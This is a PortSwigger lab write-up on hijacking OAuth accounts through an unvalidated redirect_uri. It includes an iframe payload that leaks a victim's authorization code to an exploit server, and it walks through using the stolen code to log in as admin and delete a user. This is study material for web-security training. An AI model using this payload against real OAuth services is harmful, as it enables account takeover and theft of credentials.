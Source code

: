 # OAuth account hijacking via redirect_uri

## Description

[This lab](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri) uses an `OAuth` service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorisation codes associated with other users' accounts.

## Reproduction and proof of concept

1. While proxying traffic through Burp, click **My account** and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.

```text
https://oauth-0ac600970457d960c02ae86d027200a9.oauth-server.net/auth/p9Zl4tDpANUmA7daaGrir
```

2. Log out and then log back in again. Observe that you are logged in instantly this time. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself.
3. In Burp, study the OAuth flow in the proxy history and identify the **most recent** authorisation request. This should start with `GET /auth?client_id=[...]`. Notice that when this request is sent, you are immediately redirected to the `redirect_uri` along with the authorisation code in the query string. Send this authorisation request to Burp Repeater.
4. In Burp Repeater, observe that you can submit any arbitrary value as the `redirect_uri` without encountering an error. Notice that your input is used to generate the redirect in the response.
5. Change the `redirect_uri` to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's **access log**:

![Oauth](/_static/images/oauth1.png)

There is a log entry containing an authorisation code. This confirms it is possible to leak authorisation codes to an external domain.

6. Go back to the exploit server and create the following `iframe` at `/exploit`:

```text
<iframe src="https://oauth-0ac600970457d960c02ae86d027200a9.oauth-server.net/auth?client_id=g92riblrj8611fgr7szqz&redirect_uri=https://exploit-0a68007904cad9f0c073e9a201f00023.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

![Oauth](/_static/images/oauth2.png)

7. Store the exploit and click **View exploit**. Check that your `iframe` loads and then check the exploit server's **access log**: 

![Oauth](/_static/images/oauth3.png)

8. **Deliver the exploit** to the victim, then go back to the **access log**:

![Oauth](/_static/images/oauth4.png)

Copy the victim's code from the resulting request.

```text
5q8G6tiMiyS3DRtK3lnJt1Jkb08l642WL_aJGbSlCxp
```
9. Log out of the blog website and then use the stolen code to navigate to:

```text
https://0aca00c7046dd970c046ea7c0009002f.web-security-academy.net/oauth-callback?code=5q8G6tiMiyS3DRtK3lnJt1Jkb08l642WL_aJGbSlCxp
```

10. The rest of the OAuth flow will be completed automatically, and you will be logged in as the `admin` user. Open the admin panel and delete Carlos.

![Oauth](/_static/images/oauth5.png)

## Exploitability

An attacker will need to log in to `wiener:peter`; and then steal an authorisation code associated with the admin user; then use it to access their account and delete Carlos.

The admin user will open anything sent from the exploit server, and always has an active session with the `OAuth` service. 
